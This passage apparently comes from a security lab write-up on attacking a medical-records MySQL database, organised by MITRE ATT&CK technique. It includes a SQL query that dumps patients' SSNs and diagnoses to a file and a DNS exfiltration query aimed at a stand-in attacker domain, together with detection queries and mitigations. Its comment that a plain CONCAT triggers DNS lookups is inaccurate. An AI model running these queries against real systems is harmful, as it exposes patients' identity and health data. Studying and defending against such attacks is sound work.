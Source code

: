 **Exfiltration:**
```sql
-- Complete PHI dump
SELECT 
    p.first_name, p.last_name, p.ssn, p.dob,
    m.diagnosis, m.medications, m.doctor_notes
FROM patients p
LEFT JOIN medical_records m ON p.id = m.patient_id
INTO OUTFILE '/tmp/complete_phi_breach.csv';
```

**Impact:**
- 50 identity theft victims
- HIPAA violation ($100 - $50,000 per record)
- Average breach cost: $429 per record
- Total estimated cost: $21,450+
- Reputation damage
- Legal liability

**Detection:**
```sql
-- Monitor for large data exports
SELECT user_id, COUNT(*) as row_count
FROM audit_log
WHERE action LIKE '%SELECT%'
  AND timestamp > NOW() - INTERVAL 1 HOUR
GROUP BY user_id
HAVING row_count > 1000;

-- Alert on INTO OUTFILE usage
grep "INTO OUTFILE" /var/log/mysql/query.log
```

**Mitigation:**
- Data classification and labeling
- Encryption for sensitive data (SSN, PHI)
- Data loss prevention (DLP) tools
- Query result size limits
- Monitor and alert on bulk data access

---

### Exfiltration (TA0010)

#### T1048: Exfiltration Over Alternative Protocol

**Description:** Adversaries may steal data using protocols not commonly monitored.

**Implementation in Lab:**
- DNS exfiltration via MySQL queries
- SQL queries can trigger DNS lookups

**Attack:**
```sql
-- DNS exfiltration
-- Each SSN causes DNS query to attacker-controlled domain
SELECT CONCAT(
    REPLACE(ssn, '-', ''),
    '.exfil.attacker.com'
) FROM patients;

-- Generates DNS queries like:
-- 123456789.exfil.attacker.com
-- 987654321.exfil.attacker.com
-- Attacker's DNS server logs contain all SSNs
```
